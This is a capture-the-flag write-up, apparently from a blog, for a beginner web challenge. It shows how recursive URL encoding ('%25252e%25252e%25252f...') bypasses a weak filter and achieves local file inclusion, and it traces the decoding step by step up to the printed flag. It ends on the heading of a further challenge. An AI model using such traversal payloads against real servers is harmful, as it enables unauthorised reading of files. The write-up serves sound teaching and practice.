 ## Beginner/secret_of_j4ck4l (326 solves)
Created by: `j4ck4l`

> I left a message for you. You will love it definitely

`http://x.x.x.x:8003/read_secret_message?file=message`

This is a website that seems to read a local file from a parameter `file`, so immediately keeping an eye out for LFI before looking at the source code.

The code has a very... interesting filtering system.
```python
def ignore_it(file_param):
	yoooo = file_param.replace('.', '').replace('/', '')
	if yoooo != file_param:
		return "Illegal characters detected in file parameter!"
	return yoooo

def another_useless_function(file_param):
	return urllib.parse.unquote(file_param)

def useless (file_param):
	file_param1 = ignore_it(file_param)
	file_param2 = another_useless_function(file_param1)
	file_param3 = ignore_it(file_param2)
	file_param4 = another_useless_function(file_param3)
	file_param5 = another_useless_function(file_param4)
	return file_param5
```

The issue with this 'filtering' is its incredibly reliant on just, hoping nobody tests it. The `ignore_it` function filters all instances of `.` and `/` found in the URL, but not for recursive URL encoding. 
Due to % in hex being `25` we can apply repeated url encoding to get our payload to bypass the filter.

Payload: `%25252e%25252e%25252fflag%25252etxt`

In the server the payload is parsed as follows: (each line is a line in the 'useless' function)

```
file_param = %25252e%25252e%25252fflag%25252etxt
fileparam1 = %252e%252e%252fflag%252etxt
fileparam2 = %2e%2e%2fflag%2etxt
fileparam3 = %2e%2e%2fflag%2etxt
fileparam4 = ../flag.txt
fileparam5 = ../flag.txt
```

After sending we get our flag back: <mark>flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}</mark>

**Files:** [public.zip](https://web.archive.org/web/20231218155757/https://backdoor.infoseciitr.in/uploads?key=b0e84ea81114b302036097a2b11d446a0f82ead89ebc09a5bfc9ed70a4601607%2Fpublic.zip)

## Rev/Open Sesame (192 solves)
Created by: `Sl4y3r_07`
